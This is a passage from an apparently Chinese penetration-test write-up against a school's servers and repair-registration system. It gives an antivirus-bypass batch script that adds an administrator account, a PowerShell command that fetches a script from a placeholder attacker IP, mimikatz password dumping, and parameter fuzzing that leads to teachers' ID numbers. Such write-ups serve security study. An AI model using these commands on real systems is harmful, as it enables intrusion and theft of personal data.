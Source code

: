 但添加用户时又回显超时，想起来应该是有杀软在拦截命令行添加用户。一看果不其然，有火绒。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-b030e9ead053e3b0e35bfeb15fcd9e60884e5993.png)

2.3.2 可以使用如下方法绕过火绒添加用户。我们可以编写一个.bat命令批处理脚本，内容如下：

`copy c:\windows\system32\net1.exe d:\update.exe`

`d:\update.exe  user newuser password123 /ad`

`net localgroup administrators newuser /ad`

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-16bdbcfed1ea862ae74a54bf187e397a82c12b46.png)

意为将net1.exe复制到D盘并重命名为update.exe，用这个update.exe来新增用户。这里注意不能用net.exe，会被拦截，用net1.exe才行。/add可以用/ad替代。若将这里的update.exe 放在C盘的目录也不能成功执行，本地测试仍会被火绒拦，如下图所示。所以最好将其添加到非系统盘。（最后要记得删除）

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-6a10a503d192d03e28057cf6cc4ed05b8cd6de91.png)

2.3.3 执行命令，让服务器抓取我们的脚本，然后执行。这里一定不能用certutil命令下载，火绒会拦截。  
`powershell -nop -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://xxx.xxx.xxx.xxx:8000/1.bat','d:\1.bat')`  
最后也是很顺利地绕过火绒添加了用户，远程连接成功。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-f4dd1ac328b2e1445fd757718f37f3a421e1bd84.png)

2.3.4 searchall收集了一批密码，上面有些web已经没了，剩下的登上去也没有什么东西。mimikatz抓了本机密码，可惜也没喷洒出相同密码的服务器。(下图厚码保命)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-a544ce37891cd192013abe950500ee1406d3a4fe.png)

2.3.5 这台服务器的9200端口还有Elastic未授权，可以用ElasticHD进行可视化管理。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-942f301548e327d9c51062e1740e094f55cc7c5a.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-dc29af6c1549f974a563c916a9b6b9d97585a00a.png)

工具链接： <https://github.com/qax-os/ElasticHD>

### **三、网络报修登记系统**

#### **3.1 注入得到全校教师SFZ号**

3.1.1 下面去看看这个报修系统。路径一删发现目录遍历，但未授权访问进去的页面都静态的，点击不了功能点。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-1785e608ba9052be71189092502a6730be367227.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-04ce6baf70820f20e781a1c9a693a6f9826ff9db.png)

3.1.2 但在未授权访问的页面里，用findsomething插件发现了/api/getPageData.php这个路径，拼接发现可以正常回显报修信息。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-073221d38d0e9086412d5c70205b4045f401adb9.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-c9bc45dcb8e806b68612bcde13cf3023e708a9eb.png)

3.1.3 像这种回显json格式数据的路径一般都有传参的。fuzz一下常见参数，如id、date、page等，发现通通没有。上个参数字典爆破一下，最后发现有filter这个参数。
